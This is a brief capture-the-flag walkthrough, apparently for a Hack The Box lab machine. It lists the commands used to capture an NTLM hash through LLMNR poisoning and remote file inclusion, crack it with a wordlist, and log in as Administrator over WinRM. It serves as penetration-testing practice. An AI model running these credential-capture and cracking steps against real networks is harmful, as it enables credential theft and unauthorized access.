 # Overview
**Difficulty:** Very Easy  
**Skills:** RFI, responder, ntlm-relay, password cracking, winrm  
**HTB Link:** https://app.hackthebox.com/starting-point  
**Summary:** Capture NTLM via LLMNR/NetBIOS poisoning and RFI, crack NTLM hash, log to WinRM to obtain admin shell.

---

# Steps

## 1. Reconnaissance
### Nmap scan
- [nmap scan](./evidences/nmap.txt)  
- `nmap -sV unika.htb -oN nmap.txt`  
- Apache web server on port `80/tcp`  
- WinRM server on port `5985/tcp`

---

## 2. Resource Development
### Responder tool
- [NTLM hash](./evidences/ntlm_hash.png)  
- `responder -I tun0`  
- Listening for LLMNR/NetBIOS name resolution requests, to capture NTLM challenge hash (username:MD4 hash of password).

---

## 3. Initial Access
### Remote File Intrusion (RFI)
- [RFI command](./evidences/remote_file_intrusion.png)
- triggers the LLMNR/NetBIOS Name Resolution Request.  
- We get from responder the [NTLM hash](./evidences/hash.txt)

### Hash Crack
- [NTLM hash cracked](./evidences/hash_cracking.png)  
- `john --wordlist=/usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou-75.txt ./evidences/hash.txt`

### WinRM Access
- [WinRM shell access](./evidences/WinRM_access.png)  
- `evil-winrm -i unika.htb -u Administrator -p badminton`

---

## 4. Privilege Escalation
- [root flag](./evidences/root_flag.png)  
- `cat C:\Users\mike\Desktop\flag.txt`
